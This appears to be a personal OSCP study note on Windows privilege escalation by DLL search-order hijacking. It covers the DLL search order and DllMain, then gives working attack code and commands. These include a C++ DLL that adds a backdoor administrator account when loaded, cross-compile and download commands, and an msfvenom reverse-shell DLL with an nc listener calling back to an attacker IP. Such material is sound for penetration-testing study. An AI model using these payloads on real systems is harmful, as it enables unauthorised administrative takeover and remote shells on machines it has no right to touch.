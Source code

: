 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/8-windows-privilege-escalation/6-dll-hijacking/"}
---
```


- Dynamic Link Libraries (DLLs) provide functionality to programs or the OS.
- They are a way for developers to use and integrate already existing functionality without reinventing the wheel.
- On Unix they are comparable to Shared Objects.
- DLLs can be abused in multiple ways for privilege escalation.
	- One way is to replace the .DLL in the same way as for service hijacking.
	- Another method is called "DLL Search Order"

DLL Search Order:
- The search order determines the order of DLLs to inspecting when searching for them. By default Safe DLL Search Mode is enabled, which makes it more difficult.
- Microsoft's standard search order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
- When safe mode is disabled the current directory is at position 2 after application's directory.
- List search order using:
```powershell
$env:path  
```

One-liner to list all paths and the permissions for them (GPT):
```powershell
$env:path -split ";" | ForEach-Object { "$_"; (icacls.exe $_) | Select-String -Pattern ":\s*\([^)]+\)" }
```

Inner workings of DLLs:
- Each DLL can have an optional entry point funtion named "DllMain", which is executed when processes or threads attach the DLL.
- DllMain generally contains four cases named:
	- _DLL_PROCESS_ATTACH_
	- _DLL_THREAD_ATTACH_
	- _DLL_THREAD_DETACH_
	- _DLL_PROCESS_DETACH_
- The four cases handle situations where the DLL is loaded or unloaded by a process or thread.
- They are commonly used to perform starting or quitting tasks.
- If the DLL does not include DllMain it only provides resources.
- Example of a basic DLL in C++ containing these cases:
```c++
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
-------------

### DLL Search Order Hijacking:
1. Start procmon or other to review services and their DLLs. (Procmon has to be run as administrator on the target machine, otherwise the binary has to be copied and analysed locally)
2. Find a DLL which is missing.
3. Create a DLL in the form of a '.cpp'-file on your Kali. Example of new admin user:
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user zombie password123! /add");
  	    i = system ("net localgroup administrators zombie /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
4. Cross-compile the DLL with mingw:
```bash
x86_64-w64-mingw32-gcc <dllname>.cpp --shared -o <dllname>.dll
```
5. Serve the DLL and download it.
```powershell
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```
6. Move the DLL to the optimal position in the search order path using 'move'.
7. Restart the service loading the DLL:
```powershell
Restart-Service <servicename>
```
8. Win!

### DLL Reverse Shell with MSF:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll

nc -lvnp 443

iwr -uri http://192.168.45.226:8001/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll

RestartService EnterpriseService
```

